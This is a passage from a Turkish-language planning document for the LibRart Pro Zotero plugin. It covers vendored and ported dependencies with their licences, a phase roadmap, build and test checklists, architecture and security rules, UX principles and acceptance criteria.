| zotero-better-notes | ✅ | seçici vendor (AGPL) |
| ZotSeek | ✅ | vendor (MIT) |
| ragPaper | ✅ | köprü (MIT) |
| scite-zotero-plugin | ❌ | **port yok** — MCP `scite_*` veya `zotero-open-citations`/`zotero-citation-tally` (§7) |
| Chartero, zotero-career-tracker | ❌ kod | UX desen only (AGPL) |

---

## 14. Bağımlılık grafiği

```
F0 (test)
 └── F2 (markdb) ──┐
 └── F3 (reading) ─┼──► F4 (OpenAlex) ──► F5 (offline) ──► F6 (PDF)
                   │                              │
                   └──────────────────────────────┼──► F7 (semantic)
                                                  └──► F8 (citegeist/BN)
                                                       └──► F9 (Kutuphane CLI)
```

---

## 15. Doğrulama checklist (her faz sonu)

```bash
cd zotero-eklentiler/kaynak
npm run build
npm test                    # F0 sonrası
```

**Zotero manuel:**
- [ ] Eklenti yüklenir (Zotero 8 ve 9)
- [ ] Bağlantı Haritası açılır, katman toggle çalışır
- [ ] Yeni faz özelliği pref ile açılıp kapanır
- [ ] `onShutdown` — notifier/menu leak yok
- [ ] tr-TR / en-US locale eksiksiz (kritik stringler)

---

## 16. Sürüm/release ve ilk sprint önerisi

| Faz | Sürüm | Release notu |
|---|---|---|
| F0 | 1.0.33 | test altyapısı |
| F2 | 1.0.34 | Obsidian markdb backlink |
| F3 | 1.0.35 | okuma panosu + timeline |
| F4–F6 | 1.0.36–38 | atıf yığını |
| F7–F9 | 1.1.0–1.2.0 | semantic + köprüler |

Release: `npm run gh-release` → `sanaatchi/zotero-librart-pro-releases`

**İlk sprint (2 hafta):** Hafta 1 → F0 (1-2 gün) → F2 markdb vendor+note layer (2-3 gün) → F3
reading-flow veri modeli (2 gün). Hafta 2 → F4 OpenAlex CitationMaps motoru (4-5 gün) →
`VENDOR-SOURCES.md` güncelle → v1.0.36 release adayı.

## 17. Sonraki adım (hemen)

F0 (test/scaffold) → F2 (markdb) veya F2+F3 paralel. Kod portu öncesi `npm run build` geçmeli.

---

## 18. Mimari kurallar (Cursor + Claude + Codex ortak)

### Büyüyen modüller (refactor adayı)

| Dosya | ~satır | Risk |
|---|---:|---|
| `connectionMapRenderer.ts` | 1.891 | çizim + etkileşim + durum iç içe |
| `tagDashboard.ts` | 690 | analiz + kalıcı işlem aynı yüzeyde |
| `connectionSemanticLayer.ts` | 560 | uzak/yerel arama + graf modeli |
| `connectionNoteLayer.ts` | 493 | not çıkarımı + bağlantı yazımı |
| vendor `zotero-reference/views.ts` | 1.347 | upstream UI karışık |
| vendor `zotero-reference/api.ts` | 740 | geniş servis yüzeyi |

Yeni kod dört sınıra ayrılmalı: (1) alan modeli/doğrulama, (2) Zotero adaptörleri,
(3) uzak/yerel istemciler, (4) UI/render.

### FeatureRegistry ve adaptörler

- Reader özel alanları (`_readers`, `_iframe`, …) tek `zoteroUiAdapter` arkasında.
- Yeni özellikler doğrudan menü çoğaltmaz; `FeatureRegistry` bağlam (`item`, `collection`,
  `reader`, `tools`) + uygunluk + komut üretir.
- Küçük portlar: `ZoteroItemPort`, `HttpPort`, `PreferencePort` — birim test için.

### Güvenlik ve veri bütünlüğü

- YAML eylem içe aktarımı = kod çalıştırma sınırı → şema, boyut, kuru koşu, uyarı.
- Related-item iki yönlü yazım tek transaction veya onarım kuyruğu.
- Uzak HTTP: timeout, host allowlist, veri minimizasyonu, alan önizlemesi.
- Watch-folder (gelecek F10): ilk sürüm import-only; taşıma/silme yok; disk kopunca dur.

### Provenance (her vendor/port)

| Yerel hedef | Upstream | Commit | SPDX | Tür | Değişiklik |
|---|---|---|---|---|---|
| `src/...` | `owner/repo:path` | SHA | MIT/AGPL | vendor/port/clean-room | kısa not |

Lisanssız kaynaklardan kod/özgün ifade aktarılmaz (§1a); davranış clean-room yazılabilir.

---

## 19. UX ilkeleri

- Tek `LibRart Pro` bilgi mimarisi; öğe menüsü = seçime özel, Araçlar = kütüphane geneli.
- Tercihler: `Genel / Eylemler / Entegrasyonlar / Gelişmiş`.
- Etiket Panosu: `analiz → önizleme → uygula → sonuç/geri al`.
- Bağlantı Haritası: `Keşif / Düzenleme / Dışa aktarma` kipleri (F8 öncesi renderer ayrımı).

| Referans | Örüntü | LibRart karşılığı |
|---|---|---|
| `scholar-sidekick-zotero` | doğrulama tablosu → seçili import | F10 Güvenli İçe Aktar |
| `zotero-watch-folder` | sihirbaz + güvenlik freni | F11 PDF Gelen Kutusu |
| `zotero-tag-cited` | DOCX → etiket | F10 DOCX kullanılanlar |
| `zotero-reading-flow` | durum sütunu | F3 (öncelikli) |
| `notero` | sync durumu göstergesi | entegrasyon paneli |
| `zotero-annotation-manage` | seçime yakın eylem | Reader UX |

---

## 20. Özellik çakışmaları (yeni port yapma)

| Alan | Çakışan referanslar | Karar |
|---|---|---|
| Dosya yaşam döngüsü | watch-folder, zotmoov, attanger, zotero-file | Tek Dosya Hizmeti; F11'de watch-folder |
| Metadata doğrulama | scholar-sidekick, refchecker, shortdoi, zotadata | Tek doğrulama hattı |
| Not/MD | better-notes, mdnotes, zotlit, MdBundle | Tek çıktı şeması |
| Citation graph | ~19 depo | Yeni klon yok; F4–F6 yeterli |
| AI/RAG | ~11 depo | Yeni klon yok; F7 + Kutuphane köprüsü |
| RefChecker / systematic-reviewer | ayrı servis | Vendor değil; HTTP köprü veya desen |

---

## 21. Gelecek fazlar (F10+, çekirdek sonrası)

F0–F9 (Bağlantı Haritası + semantic) tamamlandıktan sonra:

| Faz | Sürüm | İçerik | Referans |
|---|---|---|---|
| F10 | v1.3 | Güvenli `.bib/.ris` import + DOCX kullanılanlar | scholar-sidekick, zotero-tag-cited |
| F11 | v1.3 | PDF Gelen Kutusu (import-only) | zotero-watch-folder |
| F12 | v1.4 | Anki köprüsü | yanki-connect |
| F13 | v1.4+ | RefChecker HTTP servisi; systematic-reviewer sınırlı deneme | refchecker, systematic-reviewer |

---

## 22. Kabul ölçütleri (tüm fazlar)

- Özellik ≤2 tıklama, yalnız uygun bağlamda görünür.
- Toplu/kalıcı değişiklik önce öğe sayısı + alan farkı gösterir.
- İşlemler idempotent; dış servisler bağlantı/timeout/hata durumu sunar.
- Tüm metin Fluent; özel Zotero API adaptör dışına çıkmaz.
- Test + typecheck + build geçmeden release yok; Zotero 8/9 smoke zorunlu.
- Provenance satırı olmadan vendor kabul edilmez.
- Yıkıcı dosya/kütüphane işlemi varsayılan kapalı.

§15 doğrulama checklist ile birlikte uygulanır.

---

## Belge haritası

| Dosya | Rol |
|---|---|
| **`REFERANS-ANALIZ.md`** (bu dosya) | Tek güncel kaynak — lisans, F0–F9, F10+, mimari |
| `VENDOR-SOURCES.md` | Fiili vendor listesi |
| `CURSOR-GOREV-ORIJINAL-KOD-ENTEGRASYONU.md` | Port brifi |
| `CLAUDE.md` | LibRart Claude Code girişi |
| `../README.md` | `zotero-eklentiler/` klasör envanteri (91 depo) |
| `../REFERANS-ANALIZI.md`, `../referanslar/ANALIZ.md` | Stub → bu dosya |
| `ENTEGRASYON-PLANI.md`, `CITATION-GRAPH-ENTEGRASYON.md`, `KALITE-REFERANSLARI.md`, `REFERANS-BEKLEYEN-OZELLIK.md` | Stub → bu dosya |
